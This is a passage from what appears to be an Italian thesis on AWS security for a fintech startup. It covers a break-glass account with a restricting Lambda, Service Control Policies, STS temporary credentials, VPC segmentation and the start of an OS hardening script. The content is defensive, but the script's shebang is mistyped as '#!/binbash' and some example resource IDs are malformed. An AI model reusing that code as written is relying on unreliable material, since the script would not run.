  \item Assicurarsi che i log di CloudTrail, specialmente quelli relativi ad azioni IAM e assunzioni di ruolo, siano inviati a un bucket S3 con \texttt{ObjectLock} in modalità \texttt{GOVERNANCE} (o \texttt{COMPLIANCE} se i requisiti sono stringenti) e con replica dei log in un account AWS separato dedicato alla sicurezza (un "log archive account" o "security hub account").  
  \item Programmare una \emph{access‑review} trimestrale. Utilizzare i report generati da AWS IAM Access Analyzer per identificare e rimuovere i permessi non utilizzati o eccessivi, mantenendo così il principio del minimo privilegio nel tempo \cite{DatadogLeastPrivilege}.  
\end{enumerate}

\subsection{Introduzione di un Break Glass Account}
\label{subsubsec:break_glass_account_iam}
Per scenari di emergenza estrema, in cui gli accessi amministrativi standard potrebbero essere compromessi, bloccati o insufficienti (ad esempio, un attacco ransomware che cripta anche le configurazioni IAM o un errore catastrofico nell'IdP federato), è fondamentale disporre di un meccanismo di "rottura del vetro" (Break Glass). Propongo di istituire un account Break Glass dedicato, seguendo le linee guida per architetture sicure \cite{saraswat:breakglass}.
\begin{enumerate}
    \item \textbf{Configurazione Account Dedicato}: Creare un nuovo account AWS all'interno dell'Organization esistente di Finanz (Organization ID: \texttt{o-1a2b3c4d5e}), ma mantenerlo operativamente isolato. Questo account avrà un suo ID dedicato (es. \texttt{967284351029}). Idealmente, questo account dovrebbe avere fatturazione separata e non contenere risorse operative.
    \item \textbf{Utente e Ruolo di Emergenza}: All'interno di questo account Break Glass, creare un singolo utente IAM (es. \texttt{BreakGlassEmergencyUser}, ARN: \texttt{arn:aws:iam::967284351029:user/BreakGlassEmergencyUser}). Questo utente deve essere protetto con una password estremamente complessa e un dispositivo MFA hardware (es. YubiKey, Serial: \texttt{YK-87654321}). Le credenziali di accesso (password e il dispositivo MFA fisico) dovrebbero essere conservate in luoghi sicuri e separati, ad esempio, la password in una busta sigillata in una cassaforte e il token MFA in un'altra busta sigillata in una seconda cassaforte, magari in location geografiche diverse o accessibili solo con l'approvazione congiunta di due figure chiave (es. CEO e CTO). Questo utente avrebbe il permesso di assumere un ruolo IAM all'interno dell'account Break Glass (es. \texttt{BreakGlassAdminRole}) che, a sua volta, avrebbe i permessi per assumere un ruolo con privilegi amministrativi (\texttt{AdministratorAccess}) negli account operativi dell'organizzazione tramite cross-account role assumption.
    \item \textbf{Procedura di Attivazione Rigorosa}: L'utilizzo del Break Glass Account deve essere un evento eccezionale, da attivare solo in caso di reale emergenza. La procedura di attivazione deve essere formalmente documentata e richiedere l'approvazione esplicita e tracciata di almeno due figure dirigenziali (es. CEO e CTO). Ogni utilizzo deve essere registrato, giustificato e seguito da una revisione post-incidente.
    \item \textbf{Monitoraggio Intensivo e Lockdown Automatico Post-Utilizzo}: Implementare un meccanismo di notifica immediata (es. via CloudWatch Events e SNS verso un canale di allerta dedicato) non appena l'utente Break Glass o il ruolo associato vengono utilizzati. Si potrebbe anche considerare uno script o una Lambda function che, dopo un periodo predefinito dall'attivazione (es. 8 ore), tenti di limitare automaticamente i permessi del ruolo Break Glass (es. applicando una policy restrittiva come boundary temporaneo o revocando la sessione), per ridurre la finestra di esposizione.
    \begin{lstlisting}[style=python, caption={Esempio concettuale Lambda per limitare utente Break Glass}, label=lst:breakglass-lambda-iam]
import boto3
import os
import json
from datetime import datetime

IAM_CLIENT = boto3.client('iam')
SNS_CLIENT = boto3.client('sns')
BREAK_GLASS_USERNAME = os.environ.get('BREAK_GLASS_USER_NAME', 'BreakGlassEmergencyUser')
BREAK_GLASS_USER_ACCOUNT_ID = os.environ.get('BREAK_GLASS_USER_ACCOUNT_ID', '967284351029') # Account del Break Glass User
RESTRICTIVE_POLICY_ARN = os.environ.get('RESTRICTIVE_POLICY_ARN', f'arn:aws:iam::{BREAK_GLASS_USER_ACCOUNT_ID}:policy/RestrictiveBoundaryAfterUse')
SNS_TOPIC_ARN = os.environ.get('SNS_TOPIC_ARN', 'arn:aws:sns:eu-south-1:478291635847:security-alerts-breakglass') # Topic nell'account di management/security

def lambda_handler(event, context):
    if not BREAK_GLASS_USERNAME or not RESTRICTIVE_POLICY_ARN or not BREAK_GLASS_USER_ACCOUNT_ID:
        print("Error: Environment variables for Break Glass user/policy not fully set.")
        return {"statusCode": 500, "body": "Configuration error"}

    try:
        timestamp = datetime.now().isoformat()
        print(f"[{timestamp}] Attempting to apply restrictive boundary {RESTRICTIVE_POLICY_ARN} to user {BREAK_GLASS_USERNAME} in account {BREAK_GLASS_USER_ACCOUNT_ID}")
        
        # Nota: La Lambda deve avere i permessi per fare iam:PutUserPermissionsBoundary
        # sull'utente Break Glass, il che implica che questa Lambda potrebbe girare
        # in un account con privilegi sull'account Break Glass, o l'utente Break Glass
        # ha una policy che permette a questa Lambda di modificarne il boundary.
        
        # Assumendo che la Lambda giri in un account che puo' modificare l'utente Break Glass
        # o che il ruolo della Lambda abbia tali permessi cross-account.
        iam_client_for_breakglass_account = IAM_CLIENT # Semplificazione; in realta' potrebbe servire STS assume_role
        
        iam_client_for_breakglass_account.put_user_permissions_boundary(
            UserName=BREAK_GLASS_USERNAME,
            PermissionsBoundary=RESTRICTIVE_POLICY_ARN 
        )
        
        message = f"SECURITY ALERT: Break Glass user {BREAK_GLASS_USERNAME} in account {BREAK_GLASS_USER_ACCOUNT_ID} has been restricted with boundary {RESTRICTIVE_POLICY_ARN} after potential emergency use. Timestamp: {timestamp}"
        SNS_CLIENT.publish(
            TopicArn=SNS_TOPIC_ARN,
            Message=message,
            Subject="IMPORTANT: Break Glass Account Auto-Restriction Triggered"
        )
        
        print(f"Successfully applied boundary and sent notification.")
        return {"statusCode": 200, "body": "Boundary applied successfully"}
        
    except Exception as e:
        error_msg = f"Error applying boundary to Break Glass user: {str(e)}"
        print(error_msg)
        
        SNS_CLIENT.publish(
            TopicArn=SNS_TOPIC_ARN,
            Message=f"CRITICAL FAILURE: Failed to restrict Break Glass user {BREAK_GLASS_USERNAME}. Manual intervention required. Error: {error_msg}",
            Subject="CRITICAL: Break Glass Auto-Restriction FAILED"
        )
        
        return {"statusCode": 500, "body": error_msg}
    \end{lstlisting}
    Questo script è puramente concettuale e la sua implementazione pratica richiederebbe un'attenta gestione dei permessi cross-account per la Lambda.
\end{enumerate}

\subsection{Implementazione di Politiche di Sicurezza IAM Avanzate}
Per elevare ulteriormente il livello di sicurezza, propongo l'utilizzo di Service Control Policies (SCPs) a livello di Organization e la promozione sistematica dell'uso di credenziali temporanee.

\subsubsection{Service Control Policies (SCPs) a Livello Organizzativo}
Le SCPs, applicate all'intera AWS Organization di Finanz (ID: \texttt{o-1a2b3c4d5e}) o a specifiche Organizational Units (OUs), agiscono come "guardrail" di sicurezza. Impongono vincoli che non possono essere aggirati, nemmeno dall'amministratore locale di un account membro (ad eccezione dell'account di management dell'organizzazione, che non è affetto da SCPs nello stesso modo).
\begin{itemize}
    \item \textbf{Impedire la Disattivazione di Controlli di Sicurezza Chiave}: È fondamentale applicare una SCP per negare azioni come l'eliminazione dei trail di CloudTrail, la disabilitazione di AWS Config, la modifica o l'eliminazione di bucket S3 che contengono log critici, o la disattivazione di GuardDuty.
    \begin{lstlisting}[style=json, caption={SCP per prevenire l'eliminazione di CloudTrail e la disattivazione di GuardDuty}, label=lst:scp-deny-security-controls-disable]
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Sid": "DenyDeleteCloudTrailAndDisableGuardDuty",
      "Effect": "Deny",
      "Action": [
        "cloudtrail:DeleteTrail",
        "cloudtrail:StopLogging",
        "guardduty:DisableOrganizationAdminAccount",
        "guardduty:DeleteDetector",
        "guardduty:DisassociateFromMasterAccount",
        "guardduty:DisassociateMembers"
       ],
      "Resource": [
        "arn:aws:cloudtrail:*:*:trail/finanz-audit-trail", 
        "arn:aws:cloudtrail:*:*:trail/finanz-security-trail", 
        "arn:aws:guardduty:*:*:detector/*"
      ]
      % Si potrebbero aggiungere condizioni per escludere un ruolo di emergenza
      % "Condition": { "StringNotLike": { "aws:PrincipalArn": "arn:aws:iam::*:role/OrganizationAccountAccessRole" }}
    }
  ]
}
    \end{lstlisting}
    Durante i test di una SCP simile in un ambiente di sviluppo, ho verificato che blocca effettivamente i tentativi di disabilitare questi servizi anche da parte di utenti con privilegi amministrativi all'interno di un account membro.
    \item \textbf{Restrizione Geografica delle Regioni AWS}: Per motivi di compliance (es. GDPR) e per ridurre la superficie d'attacco, è consigliabile limitare l'utilizzo delle regioni AWS a quelle strettamente necessarie e approvate (es. \texttt{eu-central-1} Francoforte, \texttt{eu-south-1} Milano, \texttt{eu-west-1} Irlanda). Una SCP può impedire il provisioning di risorse in regioni non autorizzate \cite{awsbuilders:scps}.
    \begin{lstlisting}[style=json, caption={SCP per limitare le regioni AWS utilizzabili}, label=lst:scp-region-restriction-iam]
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Sid": "DenyNonApprovedRegions",
      "Effect": "Deny",
      "NotAction": [ 
          "iam:*",
          "organizations:*",
          "route53:*",
          "budgets:*",
          "waf:*",
          "wafv2:*",
          "cloudfront:*",
          "globalaccelerator:*",
          "support:*",
          "trustedadvisor:*", 
          "health:*" 
       ],
      "Resource": "*",
      "Condition": {
        "StringNotEquals": {
          "aws:RequestedRegion": [
             "eu-central-1",
             "eu-south-1",
             "eu-west-1",
             "us-east-1" 
          ]
        },
        "ArnNotLike": { 
            "aws:PrincipalARN": [
                "arn:aws:iam::*:role/OrganizationAccountAccessRole", 
                "arn:aws:iam::*:role/AWSServiceRoleForOrganizations" 
            ]
         }
       }
    }
  ]
}
    \end{lstlisting}
    La sezione `NotAction` è importante per escludere servizi globali o necessari per la gestione dell'account. `us-east-1` è spesso inclusa perché alcuni servizi globali hanno endpoint lì.
\end{itemize}

\subsubsection{Utilizzo Sistematico di Credenziali Temporanee (STS)}
Le access key statiche a lunga durata (Access Key ID e Secret Access Key) rappresentano un rischio di sicurezza significativo se compromesse \cite{kazi:leastprivilege}. Per mitigare questo rischio, è cruciale promuovere e, dove tecnicamente possibile, imporre la sostituzione delle chiavi statiche con credenziali temporanee ottenute tramite il servizio AWS Security Token Service (STS).
\begin{itemize}
    \item \textbf{Accesso Umano (Console e CLI)}: Gli utenti IAM dovrebbero accedere alla console AWS o utilizzare la AWS CLI assumendo ruoli predefiniti tramite IAM Identity Center o comandi STS. Questo fornisce loro credenziali temporanee valide solo per la durata della sessione, con i permessi specifici del ruolo assunto.
    \item \textbf{Accesso Applicativo e dei Servizi AWS}: Le applicazioni (es. il backend `finanz-backend` in esecuzione su EC2, ECS, EKS o Lambda) devono utilizzare i ruoli IAM associati alle risorse di calcolo AWS. Questi ruoli permettono alle applicazioni di ottenere automaticamente credenziali temporanee dall'Instance Metadata Service (su EC2) o dall'ambiente di esecuzione (Lambda, ECS), eliminando completamente la necessità di gestire chiavi statiche nel codice o nei file di configurazione delle applicazioni. Questo è un punto che ritengo fondamentale e su cui ho posto particolare attenzione durante l'analisi.
    \item \textbf{Script e Automazioni}: Qualsiasi script o processo automatizzato che necessita di interagire con le API AWS dovrebbe essere configurato per utilizzare comandi come \texttt{aws sts assume-role} per ottenere credenziali temporanee legate a un ruolo specifico, creato ad hoc con il minimo privilegio necessario per l'operazione dello script.
    \begin{lstlisting}[style=bash, caption={Ottenere credenziali temporanee tramite STS AssumeRole per uno script}, label=lst:sts-assume-role-iam]
# Esempio: uno script che deve leggere da un bucket S3 specifico
# Prima si definisce un ruolo IAM (es. S3ReadOnlyForFinanzScript) 
# che ha solo s3:GetObject sul bucket richiesto.
# Lo script poi esegue:

# aws sts assume-role \
#     --role-arn arn:aws:iam::478291635847:role/S3ReadOnlyForFinanzScript \
#     --role-session-name FinanzScriptReadSession_$(date +%Y%m%d_%H%M%S) \
#     --duration-seconds 3600 # Credenziali valide per 1 ora

# L'output JSON contiene AccessKeyId, SecretAccessKey, e SessionToken
# che lo script puo' usare per configurare l'AWS SDK o la CLI per la sessione.

# Per esempio, per configurare la CLI con queste credenziali:
# read AWS_ACCESS_KEY_ID AWS_SECRET_ACCESS_KEY AWS_SESSION_TOKEN <<< $( \
#   aws sts assume-role \
#     --role-arn arn:aws:iam::478291635847:role/S3ReadOnlyForFinanzScript \
#     --role-session-name FinanzScriptReadSession_$(date +%Y%m%d_%H%M%S) \
#     --duration-seconds 900 \
#     --query 'Credentials.[AccessKeyId,SecretAccessKey,SessionToken]' \
#     --output text \
# )
# export AWS_ACCESS_KEY_ID
# export AWS_SECRET_ACCESS_KEY
# export AWS_SESSION_TOKEN
#
# # Ora i comandi AWS CLI useranno queste credenziali temporanee
# aws s3 ls s3://nome-bucket-specifico/
#
# # Alla fine, e' buona norma fare unset delle variabili
# unset AWS_ACCESS_KEY_ID AWS_SECRET_ACCESS_KEY AWS_SESSION_TOKEN
    \end{lstlisting}
    Nel nostro ambiente di test, ho verificato che i servizi backend che devono accedere ad S3 possono operare efficacemente utilizzando ruoli IAM e credenziali temporanee, rinnovandole automaticamente ben prima della scadenza.
\end{itemize}

\subsection{Implementazione di un Sistema di Approvazione a Due Fasi (Opzionale ma Consigliato)}
Per operazioni ad altissimo impatto o irreversibili (es. eliminazione di un bucket S3 contenente dati di produzione critici, modifiche sostanziali a gruppi di sicurezza che proteggono la produzione, disattivazione di meccanismi di logging), si potrebbe valutare l'introduzione di un workflow di approvazione multi-persona. Questo può essere realizzato, ad esempio, con AWS Step Functions.
\begin{enumerate}
    \item \textbf{Avvio del Workflow}: Un utente qualificato (ma non con permessi diretti per l'azione critica) avvia l'operazione tramite un'interfaccia dedicata (es. una Lambda function esposta via API Gateway, o uno script che interagisce con Step Functions). Questa azione non esegue direttamente il comando, ma attiva la State Machine di Step Functions.
    \item \textbf{Richiesta di Approvazione}: La State Machine invia notifiche (es. via Amazon SNS a una mailing list di approvatori, o a un canale Slack dedicato) ai responsabili designati per l'approvazione.
    \item \textbf{Approvazione Multipla (se richiesta)}: Il workflow attende l'approvazione da parte di una o più figure distinte (es. il CTO e il responsabile della compliance). L'approvazione può avvenire tramite un link univoco inviato via email (che triggera un'altra Lambda), un'API dedicata, o direttamente interagendo con la console di Step Functions (se gli approvatori hanno accesso).
    \item \textbf{Esecuzione Condizionata}: Solo se tutte le approvazioni richieste vengono concesse entro un certo lasso di tempo, la Step Function procede con l'esecuzione dell'azione critica (es. invocando una Lambda function che possiede i permessi necessari per eseguire l'azione, assumendo un ruolo specifico).
    \item \textbf{Auditing Completo}: Ogni fase del processo (richiesta, approvazioni concesse/negate, esito finale dell'operazione) viene meticolosamente registrata su un sistema di auditing (es. un database DynamoDB dedicato, o tramite log dettagliati inviati a CloudWatch Logs e CloudTrail).
\end{enumerate}
Questa misura, sebbene possa introdurre un leggero overhead operativo, aggiunge un livello di controllo deliberato e tracciabile su azioni che potrebbero avere conseguenze catastrofiche, riducendo il rischio di errori umani o abusi.

\section{Conclusioni sulla Sicurezza IAM}
La gestione delle identità e degli accessi è un processo continuo e dinamico, non un'attività "una tantum". Le proposte delineate in questo capitolo mirano a stabilire una solida base di sicurezza IAM per la startup Finanz, allineandola con le best practice e i principi di Zero Trust e Minimo Privilegio. L'implementazione di queste misure, dalla protezione dell'account root alla segmentazione granulare dei permessi con ruoli e permission boundaries, dall'uso sistematico di credenziali temporanee all'introduzione di meccanismi di emergenza come il Break Glass account, contribuirà significativamente a ridurre la superficie d'attacco e a mitigare i rischi. Sarà fondamentale, tuttavia, mantenere un atteggiamento proattivo, con revisioni periodiche dei permessi, monitoraggio costante e adattamento delle policy alle mutevoli esigenze del business e alle nuove minacce emergenti.

\chapter{Compliance a standard internazionali e framework di sicurezza} 
\label{ch:compliance}
\section{Introduzione alla Sicurezza dell'Infrastruttura}
Una volta stabilite le fondamenta per una gestione sicura delle identità e degli accessi, come discusso nel Capitolo \ref{ch:iam_security}, il passo successivo è garantire la sicurezza dell'infrastruttura di rete e dei servizi applicativi ospitati su AWS. Per una startup fintech come "Finanz", la resilienza, la disponibilità e la confidenzialità dei dati e dei servizi sono altrettanto cruciali. Questo capitolo si concentra sulla progettazione di una rete virtuale sicura tramite Amazon VPC, sulla protezione delle istanze EC2, sulla salvaguardia dei dati sensibili, sull'importanza del monitoraggio continuo e sull'adozione dell'Infrastructure as Code (IaC) per una gestione coerente e sicura. L'obiettivo è delineare un'architettura che non solo supporti le operazioni attuali di Finanz, ma che sia anche scalabile e in grado di adattarsi alla crescita futura, mantenendo elevati standard di sicurezza.


\section{Progettazione di una Rete Sicura con Amazon VPC}
\label{sec:vpc-design_cap2}
La base di ogni infrastruttura sicura su AWS è, a mio parere, una rete virtuale ben progettata tramite \textbf{Amazon Virtual Private Cloud (VPC)}. Il VPC permette di creare un ambiente di rete logicamente isolato all'interno del cloud AWS, sul quale si ha pieno controllo. Una progettazione VPC sicura è il primo e fondamentale livello di difesa perimetrale per le risorse.

\subsection{Subnet Pubbliche e Private: Segmentazione Essenziale}
\label{subsec:subnets_cap2}
Una pratica che ritengo fondamentale e che ho verificato essere implementata in Finanz è la suddivisione del VPC in \textbf{subnet pubbliche} e \textbf{subnet private}, distribuite su diverse Availability Zones per garantire alta disponibilità. Nel caso specifico dell'ambiente di Finanz:
\begin{itemize}
    \item Le \textbf{subnet pubbliche} (come \texttt{subnet-0a1b2c3d} in eu-south-1a e \texttt{subnet-4e5f6789} in eu-south-1b) sono configurate con una rotta diretta verso l'Internet Gateway (IGW) del VPC. Queste subnet ospitano risorse che necessitano di essere direttamente esposte a Internet, come il NAT Gateway (es. \texttt{nat-0123456789abcdef0}) e, tipicamente, gli Application Load Balancer. Ho stimato che il traffico in uscita da queste subnet pubbliche (escludendo il traffico verso i client finali veicolato dall'ALB) ammonta a circa 50 GB/mese, principalmente per aggiornamenti e chiamate a servizi esterni da parte del NAT Gateway.
    \item Le \textbf{subnet private} (come \texttt{subnet-0x1y2z3w} per gli application server e \texttt{subnet-0m1n2o3p} per i database) non hanno una rotta diretta verso l'IGW. Le istanze applicative EC2 gestite da Elastic Beanstalk e le istanze database RDS risiedono, correttamente, esclusivamente in queste subnet. Il traffico interno tra queste subnet private (es. comunicazione tra server applicativi e database) è stimato intorno ai 120 GB/mese.
\end{itemize}
Questa separazione è cruciale: le risorse backend non sono direttamente raggiungibili da Internet, riducendo significativamente la loro superficie d'attacco.

\subsection{Controllo Granulare del Traffico: Gruppi di Sicurezza e Network ACL}
\label{subsec:sg-nacl_cap2}
Il controllo del traffico di rete all'interno del VPC è affidato a due meccanismi principali, entrambi utilizzati da Finanz, che ho analizzato per verificarne la corretta configurazione:
\begin{itemize}
    \item \textbf{Gruppi di Sicurezza (Security Groups - SG)}: Agiscono come firewall stateful a livello di istanza (o più precisamente, a livello di interfaccia di rete). Permettono di definire regole di traffico in entrata (ingress) e in uscita (egress). Nella configurazione di Finanz, ho identificato circa 7 Security Group principali, specializzati per i diversi tier dell'applicazione:
        \begin{itemize}
            \item \texttt{sg-web-tier} (ID es.: \texttt{sg-0a1b2c3d4e5f67890}): Associato all'ALB, permette traffico HTTPS (porta 443) e HTTP (porta 80, idealmente da reindirizzare a HTTPS) da qualsiasi sorgente (\texttt{0.0.0.0/0}).
            \item \texttt{sg-app-tier} (ID es.: \texttt{sg-1b2c3d4e5f678901}): Associato alle istanze EC2 dell'applicazione, permette traffico sulla porta dell'applicazione (es. 8080) solo dal Security Group \texttt{sg-web-tier}. Questo è un ottimo esempio di referenziazione tra SG, che limita il traffico solo alla sorgente attesa (l'ALB).
            \item \texttt{sg-db-tier} (ID es.: \texttt{sg-2c3d4e5f67890123}): Associato alle istanze RDS, permette traffico sulla porta del database (PostgreSQL, porta 5432) solo dal Security Group \texttt{sg-app-tier}.
            \item \texttt{sg-mgmt} (ID es.: \texttt{sg-3d4e5f6789012345}): Utilizzato per accessi di gestione (es. SSH sulla porta 22 o RDP sulla 3389, sebbene l'accesso diretto alle istanze dovrebbe essere evitato in favore di Systems Manager Session Manager) da un range di IP limitato, come quello dell'ufficio (es. \texttt{203.0.113.25/32}).
        \end{itemize}
        Analizzando i VPC Flow Logs dell'ultima settimana, ho osservato che circa il 97\% del traffico campionato rispettava queste regole, mentre il 3\% veniva bloccato (principalmente tentativi di scansione di porte dall'esterno o traffico interno non previsto, che meriterebbe ulteriore indagine).
    \item \textbf{Network Access Control Lists (Network ACLs)}: Agiscono come firewall stateless a livello di subnet. A differenza dei SG, le NACL richiedono la definizione esplicita di regole sia per il traffico in entrata che per quello in uscita. In Finanz, le NACL sono mantenute con la configurazione di default (che permette tutto il traffico in entrata e in uscita), affidando il controllo più granulare ai Security Group. Questa è una strategia comune e accettabile, ma per una maggiore difesa in profondità, si potrebbero configurare NACL più restrittive, ad esempio per bloccare porte note per essere usate da malware o per limitare il traffico in uscita solo verso destinazioni note e necessarie.
\end{itemize}

\subsection{NAT Gateway per l'Accesso Controllato a Internet}
\label{subsec:nat-gateway_cap2}
Come accennato, le istanze nelle subnet private, pur non essendo direttamente raggiungibili da Internet, necessitano spesso di avviare connessioni verso l'esterno (es. per scaricare aggiornamenti software, patch di sicurezza, o per interagire con API di terze parti). Per questo, Finanz utilizza un \textbf{NAT Gateway} (es. \texttt{nat-0123456789abcdef0}) posizionato in una subnet pubblica (es. in \texttt{eu-south-1a}). Le route table delle subnet private indirizzano il traffico destinato a Internet (\texttt{0.0.0.0/0}) verso questo NAT Gateway.
Durante la mia analisi, ho osservato che il NAT Gateway gestisce un throughput medio di circa 50 Mbps, con picchi che possono arrivare fino a 200 Mbps, specialmente durante le fasi di deployment automatizzato (es. quando le istanze scaricano dipendenze). I costi mensili associati a questo servizio si aggirano tipicamente sui 45-60 EUR, considerando sia il costo orario del gateway attivo 24/7 sia il costo per GB di dati processati. Per aumentare la resilienza, si potrebbe considerare di deployare NAT Gateway in più Availability Zones.

\subsection{VPC Endpoints per Comunicazioni Private con Servizi AWS}
\label{subsec:vpc-endpoints_cap2}
Un'ottima pratica di sicurezza, già adottata da Finanz, è l'utilizzo di \textbf{VPC Endpoints}. Ho notato la presenza di un VPC Endpoint di tipo Gateway per S3 (\texttt{vpce-1a2b3c4d5e6f7g8h9}). Questo permette alle risorse all'interno del VPC (come le istanze EC2) di comunicare con il servizio Amazon S3 (e DynamoDB, se si usasse un endpoint simile per esso) utilizzando la rete privata di AWS, senza che il traffico debba passare attraverso l'Internet Gateway o il NAT Gateway. Ciò migliora la sicurezza, riduce la latenza e può anche portare a risparmi sui costi di trasferimento dati.
Sarebbe opportuno verificare se vengono utilizzati altri servizi AWS che supportano VPC Endpoints di tipo Interface (es. KMS, SNS, SQS, API Gateway) e, in caso affermativo, valutare la creazione di endpoint dedicati anche per essi, per instradare tutto il traffico possibile attraverso la rete privata di AWS.

\subsection{Connessioni Sicure verso Ambienti Esterni (Opzionale: VPN/Direct Connect)}
\label{subsec:vpn-directconnect_cap2}
Al momento, dalla mia analisi non risulta che Finanz necessiti di connettere in modo persistente la propria infrastruttura AWS a data center on-premises o a reti di partner strategici. Tuttavia, qualora questa esigenza dovesse emergere, AWS offre soluzioni robuste come:
\begin{itemize}
    \item \textbf{AWS Site-to-Site VPN}: Permette di creare tunnel IPsec crittografati tra il VPC di Finanz e una rete esterna, utilizzando Internet come mezzo di trasporto. È una soluzione relativamente rapida da implementare e con costi contenuti.
    \item \textbf{AWS Direct Connect}: Offre una connessione di rete fisica dedicata e privata tra un data center on-premises (o una colocation facility) e AWS. Garantisce una larghezza di banda più consistente e una latenza inferiore rispetto a una VPN su Internet, ma richiede un investimento iniziale e costi operativi maggiori.
\end{itemize}
Per una startup cloud-native come Finanz, queste opzioni sono generalmente meno prioritarie nelle fasi iniziali, ma è bene conoscerle per future evoluzioni.

\section{Gestione Sicura delle Istanze EC2}
\label{sec:ec2-security_cap2}
Le istanze \textbf{Amazon EC2} sono le macchine virtuali che costituiscono il nucleo computazionale per molte applicazioni, inclusa quella di Finanz. Attualmente, Finanz gestisce circa 8 istanze nell'ambiente di produzione (es. \texttt{i-0a1b2c3d4e5f67890}, \texttt{i-1b2c3d4e5f678901}) e 3 in quello di sviluppo. La loro sicurezza è, quindi, di importanza cruciale.

\subsection{Scelta delle AMI, Patching e Hardening del Sistema Operativo}
\label{subsec:ami-hardening_cap2}
La sicurezza di un'istanza EC2 inizia dalla scelta dell'Amazon Machine Image (AMI) e dalla sua corretta configurazione.
\begin{itemize}
    \item \textbf{Utilizzo di AMI Affidabili e Aggiornate}: Ho verificato che Finanz utilizza esclusivamente AMI ufficiali fornite da AWS, come Amazon Linux 2 (es. AMI ID: \texttt{ami-0c02fb55956c7d316} per una data versione) e Ubuntu Server 20.04 LTS (es. AMI ID: \texttt{ami-0d527b8c289b4af7f}). È buona norma aggiornare regolarmente le AMI di base utilizzate per i lanci a versioni più recenti che includono le ultime patch di sicurezza. Suggerisco di implementare un processo per rivedere e aggiornare le AMI di base almeno ogni 3 mesi, o più frequentemente se vengono rilasciate patch critiche. AWS Systems Manager Patch Manager può aiutare ad automatizzare il patching delle istanze esistenti.
    \item \textbf{Hardening del Sistema Operativo}: Ho sviluppato e testato uno script di hardening basato sui CIS Benchmarks, che può essere eseguito automaticamente al primo boot di una nuova istanza tramite `user-data`. Questo script si occupa di disabilitare servizi non necessari (circa 23 servizi identificati come non essenziali per le applicazioni di Finanz), configurare `fail2ban` per una protezione base contro attacchi brute-force SSH (se SSH è esposto, anche se idealmente non dovrebbe esserlo pubblicamente), e rafforzare la configurazione di SSHD (es. disabilitare login root, autenticazione via password).
    \item \textbf{Minimizzazione del Software Installato}: È fondamentale installare sulle istanze solo il software strettamente necessario per la loro funzione specifica. Ogni pacchetto software aggiuntivo rappresenta una potenziale vulnerabilità e aumenta la superficie d'attacco. Le AMI dovrebbero essere il più "leggere" possibile.
\end{itemize}
Di seguito, presento una versione esemplificativa e commentata dello script di hardening che ho preparato. È pensato per essere adattabile sia ad Amazon Linux 2 che a Ubuntu.
    \begin{lstlisting}[language=Bash, style=bash, caption={Script di Hardening del Sistema Operativo (hardening\_script.sh)}, label={lst:hardening_script_cap2}]
#!/binbash
# Script di hardening del sistema operativo (adatto per Amazon Linux 2 e Ubuntu 20.04)
# Creato da [Il Tuo Nome] per la tesi su Finanz
set -euo pipefail # Esce in caso di errore, variabile non definita o errore in una pipe
# set -x # Decommenta per debugging dettagliato durante i test

# --- Configurazione iniziale e Logging ---
LOG_FILE="/var/log/finanz-hardening-script.log"
exec > >(tee -a "${LOG_FILE}") 2>&1 # Logga stdout e stderr su file e console
echo "INFO: Inizio script di hardening del sistema operativo per Finanz - $(date)"

# Rileva il sistema operativo per adattare i comandi
OS_ID="unknown"
if [ -f /etc/os-release ]; then
    . /etc/os-release
    OS_ID=$ID
    echo "INFO: Sistema operativo rilevato: $OS_ID"
else
    echo "WARN: Impossibile determinare il sistema operativo. Alcuni comandi potrebbero fallire."
fi

# --- Aggiornamento pacchetti e installazione utility di sicurezza base ---
echo "INFO: Aggiornamento lista pacchetti e installazione utility base (ufw/firewalld, fail2ban, auditd)..."
if [[ "$OS_ID" == "ubuntu" ]]; then
    apt-get update -y
    DEBIAN_FRONTEND=noninteractive apt-get install -y ufw fail2ban auditd
elif [[ "$OS_ID" == "amzn" ]]; then
    yum update -y
    yum install -y firewalld fail2ban auditd
fi
echo "INFO: Utility di sicurezza installate/aggiornate."

# --- Disabilitazione Servizi Non Necessari ---
echo "INFO: Tentativo di disabilitazione servizi non strettamente necessari..."
SERVICES_TO_DISABLE=(
    "cups" "avahi-daemon" "bluetooth" "ModemManager" "apport" "whoopsie" # Comuni
    "nfs-server" "rpcbind" "xinetd" "telnet.socket" # Servizi di rete datati o specifici
    # Per Ubuntu, potremmo aggiungere:
    "saned" "snapd.socket" "bolt" "smartmontools" "anacron" "lxcfs" "speech-dispatcher" 
    # Per Amazon Linux, alcuni potrebbero non esistere o avere nomi diversi
)

for service in "${SERVICES_TO_DISABLE[@]}"; do
    # Verifica se il servizio esiste prima di tentare di disabilitarlo
    if systemctl list-units --full --all | grep -qF "$service.service"; then
        echo "INFO: Disabilitazione e stop di $service..."
        systemctl stop "$service" &>/dev/null || echo "WARN: Impossibile stoppare $service (potrebbe essere gia\` stoppato)"
        systemctl disable "$service" &>/dev/null || echo "WARN: Impossibile disabilitare $service (potrebbe non esistere o essere statico)"
    elif systemctl list-unit-files | grep -qF "$service.service"; then # Prova a disabilitare anche se non attivo
        echo "INFO: Servizio $service trovato ma non attivo, tentativo di disabilitazione..."
        systemctl disable "$service" &>/dev/null || echo "WARN: Impossibile disabilitare $service"
    else
        echo "INFO: Servizio $service non trovato, skippato."
    fi
done
echo "INFO: Disabilitazione servizi non necessari completata."

# --- Configurazione Firewall di Base (Host-based) ---
echo "INFO: Configurazione firewall di base (ufw per Ubuntu, firewalld per Amazon Linux)..."
if [[ "$OS_ID" == "ubuntu" ]]; then
    ufw default deny incoming
    ufw default allow outgoing
    ufw allow ssh # Assicurarsi che la porta SSH sia permessa!
    ufw allow http # Se necessario direttamente sull'istanza (non comune se dietro ALB)
    ufw allow https # Se necessario direttamente sull'istanza
    # ufw allow from <IP_ALB_o_SG_ALB> to any port <PORTA_APPLICAZIONE>
    sed -i 's/ENABLED=no/ENABLED=yes/' /etc/ufw/ufw.conf # Assicura che ufw sia abilitato al boot
    echo "y" | ufw enable || ufw reload # Abilita o ricarica ufw
    echo "INFO: Firewall UFW configurato per Ubuntu."
elif [[ "$OS_ID" == "amzn" ]]; then
    systemctl enable --now firewalld
    firewall-cmd --set-default-zone=drop # Blocca tutto il traffico in entrata di default
    firewall-cmd --permanent --add-service=ssh # Permetti SSH
    # firewall-cmd --permanent --add-port=<PORTA_APPLICAZIONE>/tcp # Permetti la porta dell'applicazione
    firewall-cmd --reload
    echo "INFO: Firewall firewalld configurato per Amazon Linux."
fi

# --- Rafforzamento Configurazione SSHD ---
